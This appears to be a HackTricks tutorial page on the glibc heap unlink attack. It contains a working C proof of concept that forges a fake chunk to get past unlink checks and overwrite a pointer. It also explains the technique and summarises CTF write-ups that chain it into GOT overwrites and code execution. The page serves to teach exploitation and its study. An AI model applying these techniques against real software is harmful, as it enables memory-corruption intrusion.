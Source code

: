 # Unlink Attack

{{#include ../../banners/hacktricks-training.md}}

## Basic Information

When this attack was discovered it mostly allowed a WWW (Write What Where), however, some **checks were added** making the new version of the attack more interesting more more complex and **useless**.

### Code Example:

<details>

<summary>Code</summary>

```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Altered from https://github.com/DhavalKapil/heap-exploitation/tree/d778318b6a14edad18b20421f5a06fa1a6e6920e/assets/files/unlink_exploit.c to make it work

struct chunk_structure {
  size_t prev_size;
  size_t size;
  struct chunk_structure *fd;
  struct chunk_structure *bk;
  char buf[10];               // padding
};

int main() {
  unsigned long long *chunk1, *chunk2;
  struct chunk_structure *fake_chunk, *chunk2_hdr;
  char data[20];

  // First grab two chunks (non fast)
  chunk1 = malloc(0x8000);
  chunk2 = malloc(0x8000);
  printf("Stack pointer to chunk1: %p\n", &chunk1);
  printf("Chunk1: %p\n", chunk1);
  printf("Chunk2: %p\n", chunk2);

  // Assuming attacker has control over chunk1's contents
  // Overflow the heap, override chunk2's header

  // First forge a fake chunk starting at chunk1
  // Need to setup fd and bk pointers to pass the unlink security check
  fake_chunk = (struct chunk_structure *)chunk1;
  fake_chunk->size = 0x8000;
  fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
  fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

  // Next modify the header of chunk2 to pass all security checks
  chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
  chunk2_hdr->prev_size = 0x8000;  // chunk1's data region size
  chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

  // Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
  // This results in chunk1 pointer pointing to chunk1 - 3
  // i.e. chunk1[3] now contains chunk1 itself.
  // We then make chunk1 point to some victim's data
  free(chunk2);
  printf("Chunk1: %p\n", chunk1);
  printf("Chunk1[3]: %x\n", chunk1[3]);

  chunk1[3] = (unsigned long long)data;

  strcpy(data, "Victim's data");

  // Overwrite victim's data using chunk1
  chunk1[0] = 0x002164656b636168LL;

  printf("%s\n", data);

  return 0;
}

```

</details>

- Attack doesn't work if tcaches are used (after 2.26)

### Goal

This attack allows to **change a pointer to a chunk to point 3 addresses before of itself**. If this new location (surroundings of where the pointer was located) has interesting stuff, like other controllable allocations / stack..., it's possible to read/overwrite them to cause a bigger harm.

- If this pointer was located in the stack, because it's now pointing 3 address before itself and the user potentially can read it and modify it, it will be possible to leak sensitive info from the stack or even modify the return address (maybe) without touching the canary
- In order CTF examples, this pointer is located in an array of pointers to other allocations, therefore, making it point 3 address before and being able to read and write it, it's possible to make the other pointers point to other addresses.\
  As potentially the user can read/write also the other allocations, he can leak information or overwrite new address in arbitrary locations (like in the GOT).

### Requirements

- Some control in a memory (e.g. stack) to create a couple of chunks giving values to some of the attributes.
- Stack leak in order to set the pointers of the fake chunk.

### Attack

- There are a couple of chunks (chunk1 and chunk2)
- The attacker controls the content of chunk1 and the headers of chunk2.
- In chunk1 the attacker creates the structure of a fake chunk:
  - To bypass protections he makes sure that the field `size` is correct to avoid the error: `corrupted size vs. prev_size while consolidating`
  - and fields `fd` and `bk` of the fake chunk are pointing to where chunk1 pointer is stored in the with offsets of -3 and -2 respectively so `fake_chunk->fd->bk` and `fake_chunk->bk->fd` points to position in memory (stack) where the real chunk1 address is located:

<figure><img src="../../images/image (1245).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

- The headers of the chunk2 are modified to indicate that the previous chunk is not used and that the size is the size of the fake chunk contained.
- When the second chunk is freed then this fake chunk is unlinked happening:
  - `fake_chunk->fd->bk` = `fake_chunk->bk`
  - `fake_chunk->bk->fd` = `fake_chunk->fd`
- Previously it was made that `fake_chunk->fd->bk` and `fake_chunk->bk->fd` point to the same place (the location in the stack where `chunk1` was stored, so it was a valid linked list). As **both are pointing to the same location** only the last one (`fake_chunk->bk->fd = fake_chunk->fd`) will take **effect**.
- This will **overwrite the pointer to chunk1 in the stack to the address (or bytes) stored 3 addresses before in the stack**.
  - Therefore, if an attacker could control the content of the chunk1 again, he will be able to **write inside the stack** being able to potentially overwrite the return address skipping the canary and modify the values and points of local variables. Even modifying again the address of chunk1 stored in the stack to a different location where if the attacker could control again the content of chunk1 he will be able to write anywhere.
  - Note that this was possible because the **addresses are stored in the stack**. The risk and exploitation might depend on **where are the addresses to the fake chunk being stored**.

<figure><img src="../../images/image (1246).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

## References

- [https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit](https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit)
- Although it would be weird to find an unlink attack even in a CTF here you have some writeups where this attack was used:
  - CTF example: [https://guyinatuxedo.github.io/30-unlink/hitcon14_stkof/index.html](https://guyinatuxedo.github.io/30-unlink/hitcon14_stkof/index.html)
    - In this example, instead of the stack there is an array of malloc'ed addresses. The unlink attack is performed to be able to allocate a chunk here, therefore being able to control the pointers of the array of malloc'ed addresses. Then, there is another functionality that allows to modify the content of chunks in these addresses, which allows to point addresses to the GOT, modify function addresses to egt leaks and RCE.
  - Another CTF example: [https://guyinatuxedo.github.io/30-unlink/zctf16_note2/index.html](https://guyinatuxedo.github.io/30-unlink/zctf16_note2/index.html)
    - Just like in the previous example, there is an array of addresses of allocations. It's possible to perform an unlink attack to make the address to the first allocation point a few possitions before starting the array and the overwrite this allocation in the new position. Therefore, it's possible to overwrite pointers of other allocations to point to GOT of atoi, print it to get a libc leak, and then overwrite atoi GOT with the address to a one gadget.
  - CTF example with custom malloc and free functions that abuse a vuln very similar to the unlink attack: [https://guyinatuxedo.github.io/33-custom_misc_heap/csaw17_minesweeper/index.html](https://guyinatuxedo.github.io/33-custom_misc_heap/csaw17_minesweeper/index.html)
    - There is an overflow that allows to control the FD and BK pointers of custom malloc that will be (custom) freed. Moreover, the heap has the exec bit, so it's possible to leak a heap address and point a function from the GOT to a heap chunk with a shellcode to execute.

{{#include ../../banners/hacktricks-training.md}}



